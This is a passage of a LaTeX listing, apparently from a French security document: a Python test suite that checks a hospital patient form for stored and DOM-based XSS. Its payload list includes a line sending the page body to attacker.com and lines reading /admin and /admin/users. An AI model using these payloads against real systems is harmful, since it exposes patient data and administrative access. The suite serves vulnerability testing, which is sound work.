 \begin{lstlisting}[style=pythonstyle,caption=Suite de tests XSS automatises pour application medicale]
                # Verification si l'injection est stockee et executee
                if payload in response.text:
                    successful_injections.append(payload)
                    self.logger.warning(f"Stored XSS successful: {payload[:50]}...")
                
            except Exception as e:
                self.logger.error(f"Stored XSS test failed: {str(e)}")
        
        return {
            "test_name": test_name,
            "total_payloads": len(payloads),
            "successful_injections": len(successful_injections),
            "vulnerable": len(successful_injections) > 0,
            "payloads": successful_injections,
            "risk_level": "CRITICAL" if len(successful_injections) > 0 else "LOW"
        }

    def test_dom_based_xss_callback(self):
        """Test DOM-based XSS via callback parameter"""
        test_name = "DOM-based XSS - Callback Parameter"
        
        payloads = [
            "alert('DOM-XSS-Medical')",
            "document.location='http://attacker.com/dom?data='+document.body.innerHTML",
            "fetch('/admin').then(r=>r.text()).then(d=>alert('Admin-Access:'+d.substr(0,100)))",
            "if(document.querySelector('.patient-card')){alert('Patient-Data-Access')}",
            "var xhr=new XMLHttpRequest();xhr.open('GET','/admin/users');xhr.send();xhr.onload=()=>alert(xhr.responseText)"
        ]
        
        successful_dom_xss = []
        
        for payload in payloads:
            params = {'callback': payload}
            
            try:
                response = self.session.get(f"{self.target_url}/hospital_patient_form.php", params=params)
                
                # Verification presence du payload dans le contexte JavaScript
                if f'var callback = "{payload}";' in response.text or f'eval("{payload}")' in response.text:
                    successful_dom_xss.append(payload)
                    self.logger.warning(f"DOM XSS detected: {payload[:50]}...")
                
            except Exception as e:
                self.logger.error(f"DOM XSS test failed: {str(e)}")
        
        return {
            "test_name": test_name,
            "total_payloads": len(payloads),
            "successful_dom_xss": len(successful_dom_xss),
            "vulnerable": len(successful_dom_xss) > 0,
            "payloads": successful_dom_xss,
            "risk_level": "CRITICAL" if len(successful_dom_xss) > 0 else "LOW"
        }


\end{lstlisting}
